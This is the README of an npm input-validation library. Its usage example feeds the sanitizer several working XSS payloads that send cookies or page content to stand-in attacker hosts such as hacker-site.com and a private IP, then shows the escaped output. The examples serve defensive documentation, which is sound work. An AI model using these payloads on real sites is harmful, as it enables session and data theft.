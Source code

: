<h1 align="center">@thermopylae/lib.api-validator</h1>
<p>
  <img alt="Version" src="https://img.shields.io/badge/version-0.0.1-blue.svg?cacheSeconds=2592000" />
  <img alt="Node Version" src="https://img.shields.io/badge/node-%3E%3D16-blue.svg"/>
<a href="https://marinrusu1997.github.io/thermopylae/lib.api-validator/index.html" target="_blank">
  <img alt="Documentation" src="https://img.shields.io/badge/documentation-yes-brightgreen.svg" />
</a>
<a href="https://github.com/marinrusu1997/thermopylae/blob/master/LICENSE" target="_blank">
  <img alt="License: MIT" src="https://img.shields.io/badge/License-MIT-yellow.svg" />
</a>
</p>

> User input validation and sanitization for api services.

## Install
```sh
npm install @thermopylae/lib.api-validator
```

## Description
This package allows you to validate user input used by API Services.
Validation is performed against JSON schema and XSS injections. <br/>
Detailed information can be found in the API Doc of the [ApiValidator][api-validator-link] class.

## Usage
Assuming you have a directory structure as described [here][api-validator-init-link], 
let's look at an example of how this package can be used.
Supposing we have the following schemas:
```text
└─ schemas
    └─ authentication-service
    │ ├─ login.json
    │ └─ logout.json
    ├─ book-service
    │ ├─ create.json
    │ ├─ read.json
    │ └─ delete.json
    └─ core
      └─ commons.json
```
We can perform validation in the following manner:
```typescript
import { ApiValidator, ValidationError } from '@thermopylae/lib.api-validator';

(async function main() {
    /* Perform initialization */
    const validator = new ApiValidator();
    // assuming schemas from 'core' folder are referenced by schemas from other service folders
    await validator.init('./schemas', ['core']);
    
    /* Successfull Scenario */
    let validData = {
        username: 'username',
        password: 'password'
    };
    // schema has id: #AUTHENTICATION_SERVICE-LOGIN
    validData = await validator.validate('AUTHENTICATION_SERVICE', 'LOGIN', validData);
    
    /* Error Scenario */
    try {
        let invalidData = {
            nameeee: 'Les Trois Mousquetaires',
            author: 'Alexandre Dumas'
        };
        invalidData = await validator.validate('BOOK_SERVICE', 'CREATE', invalidData);
    } catch (e) {
        if (e instanceof ValidationError) {
            console.error(validator.joinErrors(e.errors, 'text'));
            console.error(validator.joinErrors(e.errors, 'json'));
        }
        throw e;
    }
    
    /* XSS sanitization */
    const jsonWithXss = {
        // XSS Attack: steal sensitive information
        name: '<script>new Image().src="http://192.168.149.128/bogus.php?output="+document.body.innerHTML</script>',
        // XSS Attack: Steal user cookie
        surname: "<script>document.write('<img src=\"https://hacker-site.com/collect.gif?cookie=' + document.cookie + '\" />')</script>",
        // XSS Attack: Execute hacker script
        age: 'http://localhost:81/DVWA/vulnerabilities/xss_r/?name=<script src="http://192.168.149.128/xss.js">',
        // assuming this prop was added by some of your interceptors
        origin: {
            ip: '127.0.0.1'
        }
    };
    validator.sanitize(jsonWithXss, new Set(['origin.ip']));
    /**
     * After sanitization it will look like this:
     * {
     *   name: '&lt;script&gt;new Image().src="http://192.168.149.128/bogus.php?output="+document.body.innerHTML&lt;/script&gt;',
     *   surname: `&lt;script&gt;document.write('<img src="https://hacker-site.com/collect.gif?cookie=' + document.cookie + '" />')&lt;/script&gt;`,
     *   age: 'http://localhost:81/DVWA/vulnerabilities/xss_r/?name=&lt;script src="http://192.168.149.128/xss.js"&gt;',
     *   origin: {
     *       ip: '127.0.0.1'
     *   }
     * }
     */
    
    let stringWithXSS = '<button onclick=\'document.location= "http://www.example.com/cookie_catcher.php?c=" + document.cookie\'></button>';
    stringWithXSS = validator.sanitize(stringWithXSS);
    /**
     * After sanitization it will look like this:
     * '&lt;button onclick=\'document.location= "http://www.example.com/cookie_catcher.php?c=" + document.cookie\'&gt;&lt;/button&gt;'
     */
})();
```

## API Reference
API documentation is available [here][api-doc-link].

It can also be generated by issuing the following commands:
```shell
git clone git@github.com:marinrusu1997/thermopylae.git
cd thermopylae
yarn install
yarn workspace @thermopylae/lib.api-validator run doc
```

## Author
👤 **Rusu Marin**

* GitHub: [@marinrusu1997](https://github.com/marinrusu1997)
* Email: [dimarusu2000@gmail.com](mailto:dimarusu2000@gmail.com)
* LinkedIn: [@marinrusu1997](https://www.linkedin.com/in/rusu-marin-1638b0156/)

## 📝 License
Copyright © 2021 [Rusu Marin](https://github.com/marinrusu1997). <br/>
This project is [MIT](https://github.com/marinrusu1997/thermopylae/blob/master/LICENSE) licensed.

[api-doc-link]: https://marinrusu1997.github.io/thermopylae/lib.api-validator/index.html
[api-validator-link]: https://marinrusu1997.github.io/thermopylae/lib.api-validator/classes/apivalidator.html
[api-validator-init-link]: https://marinrusu1997.github.io/thermopylae/lib.api-validator/classes/apivalidator.html#init
